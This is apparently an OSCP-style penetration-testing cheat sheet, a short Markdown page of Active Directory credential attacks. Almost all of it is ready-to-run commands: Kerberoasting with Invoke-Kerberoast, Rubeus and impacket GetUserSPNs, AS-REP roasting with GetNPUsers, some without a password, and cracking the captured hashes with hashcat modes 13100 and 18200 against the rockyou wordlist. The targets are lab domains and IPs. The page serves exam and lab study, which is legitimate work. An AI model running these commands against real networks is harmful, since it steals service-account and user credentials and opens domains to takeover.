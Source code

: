 ```powershell
Import-Module .\Invoke-Kerberost.ps1
```

```powershell
PS> Invoke-Kerberoast -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath 'c:\users\public\HashCapture.txt' -Width 8000
```

#### Kerberosting:
```powershell
# impacket-GetUserSPNs -request -dc-ip <DC-IP> oscp.lab/username
```
hashcat mode: 13100

Windows:
```powershell
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
Linux:
```powershell
# sudo impacket-GetUserSPNs -request -dc-ip 192.168.237.70 corp.com/pete
```
```powershell
# python3 /home/kali/offsec/AD/tools/Tools/GetUserSPNs.py -dc-ip 192.168.238.70 -request -outputfile hashes.capstone2 corp.com/meg
```
→ Hashcat:
```powershell
# sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
#### As-Reproasting :
```powershell
# impacket-GetNPUsers oscp.lab/username -outfile wsername.hash
```
```powershell
ASRep with-out password !!

# GetNPUsers.py -dc-ip <IP> -no-pass -userfile usernames.txt domain/

#Asreproasting, need to provide usernames list

# GetNPUsers.py test.local/ -dc-ip <IP> -usersfile usernames.txt -format hashcat -outputfile hashes.txt

./GetNPUsers.py -dc-ip IP -request 'htb.local/'
```

We need to add $23$ to the hash like:

![image](https://github.com/kullaisec/OSCP/assets/99985908/94a9550e-6d4a-4a96-80fb-9e1e4570cfd7)

Linux:
```powershell
# impacket-GetNPUsers -dc-ip 192.168.225.70  -request -outputfile hashes.asreproast corp.com/pete
```
for this mostly we use the hashcat mode as 18200
